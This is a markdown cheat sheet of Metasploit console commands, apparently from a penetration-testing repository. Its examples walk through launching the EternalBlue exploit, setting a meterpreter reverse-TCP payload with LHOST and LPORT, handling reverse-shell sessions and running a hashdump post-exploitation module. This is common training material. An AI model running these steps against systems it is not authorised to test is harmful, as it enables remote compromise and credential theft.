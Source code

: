 # Metasploit Framework Commands

| **Purpose**                               | **Command Syntax**                           |
|-------------------------------------------|----------------------------------------------|
| Start Metasploit Console                  | `msfconsole`                                 |
| Search for an exploit or auxiliary module | `search <keyword>`                           |
| Use a specific module                     | `use <module_path>`                          |
| Show available payloads                   | `show payloads`                              |
| Set a specific payload                    | `set payload <payload_name>`                 |
| Set a target option                       | `set <option> <value>`                       |
| Show available targets for the module     | `show targets`                               |
| Exploit the target                        | `exploit`                                    |
| Show current settings                     | `show options`                               |
| Save the current configuration            | `save`                                       |
| Exit the console                          | `exit`                                       |
| Update Metasploit Framework               | `msfupdate`                                  |
| Check if a target is vulnerable           | `check`                                      |
| Launch a multi-handler for a reverse shell| `use exploit/multi/handler`                  |
| Set the LHOST for the payload             | `set LHOST <IP_address>`                     |
| Set the LPORT for the payload             | `set LPORT <port_number>`                    |
| View all active sessions                  | `sessions -l`                                |
| Interact with a specific session          | `sessions -i <session_id>`                   |
| Background a session                      | `background`                                 |
| Run a post-exploitation module            | `run <module_path>`                          |

## Example Commands

### Start Metasploit Console
```sh
cd C:\metasploit-framework\bin
msfconsole
```

### Search for an Exploit or Auxiliary Module
```sh
search exploit/windows/smb/ms17_010_eternalblue
```

### Use a Specific Module
```sh
use exploit/windows/smb/ms17_010_eternalblue
```

### Show Available Payloads
```sh
show payloads
```

### Set a Specific Payload
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

### Set a Target Option
```sh
set RHOSTS 192.168.1.100
```

### Show Available Targets for the Module
```sh
show targets
```

### Exploit the Target
```sh
exploit
```

### Show Current Settings
```sh
show options
```

### Save the Current Configuration
```sh
save
```

### Exit the Console
```sh
exit
```

### Update Metasploit Framework
```sh
msfupdate
```

### Check if a Target is Vulnerable
```sh
check
```

### Launch a Multi-Handler for a Reverse Shell
```sh
use exploit/multi/handler
```

### Set the LHOST for the Payload
```sh
set LHOST 192.168.1.100
```

### Set the LPORT for the Payload
```sh
set LPORT 4444
```

### View All Active Sessions
```sh
sessions -l
```

### Interact with a Specific Session
```sh
sessions -i 1
```

### Background a Session
```sh
background
```

### Run a Post-Exploitation Module
```sh
run post/windows/gather/hashdump
```
```